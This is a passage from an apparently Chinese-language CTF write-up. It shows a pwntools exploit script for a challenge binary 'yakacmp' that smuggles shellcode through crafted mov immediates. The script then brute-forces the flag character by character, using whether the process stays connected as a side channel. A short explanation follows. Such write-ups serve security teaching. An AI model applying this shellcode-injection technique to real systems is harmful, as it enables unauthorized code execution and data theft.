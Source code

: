 ```python
def make_ret():
    return b'ret'

def send_code(code):
    io.sendlineafter(b'more operation?', code)

for i in range(0x40):
    added = False
    for j in range(ord('0'), 0x80):
        code =    make_mov(b'r1', str(0x67616C66).encode())
        io.sendlineafter(b'some code now', code)
        send_code(make_mov(b'r2', str(0x72eb_00_b1188a + (j << 24)).encode()))
        send_code(make_mov(b'r2', str(0xf0ebdb314858).encode()))
        send_code(make_mov(b'r2', str(0xefeb23330f_00_68 + (i << 8)).encode()))
        send_code(make_mov(b'r2', str(0xefeb050f58006a).encode()))
        send_code(make_mov(b'r2', str(0xf0eb5a406a5e).encode()))
        send_code(make_mov(b'r2', str(0xefeb23330f0068).encode()))
        send_code(make_mov(b'r2', str(0xefeb5f036a050f).encode()))
        send_code(make_mov(b'r2', str(0xefeb585f5e006a).encode()))
        send_code(make_mov(b'r2', str(0xefeb2333000268).encode()))
        send_code(make_mov(b'r2', str(0xf1eb00000002).encode()))
        send_code(make_mov(b'r2', str(0xfeeb1875cb38).encode()))
        send_code(make_mov(b'r2', str(0xc3).encode()))
        send_code(b'NO')
        io.recvuntil(b'over\n')
        time.sleep(0.2)
        if not io.connected():
            print('character #%d is not %c' % (i, chr(j)))
            io.close()
            io = process('./yakacmp')
        else:
            added = True
            print('character #%d : %c' % (i, chr(j)))
            flag += chr(j)
            io.close()
            io = process('./yakacmp')
            break
    if not added:
        print(flag)
        exit(0)
    else:
        added = False
```

exp中的``connected``方法测试``io``是否正常，前面加上0.2秒的延迟给shellcode一些执行的时间。

![](https://img-blog.csdnimg.cn/af2fe2cf4d7942b38ffdfdfc96321b91.png)
成功get flag。
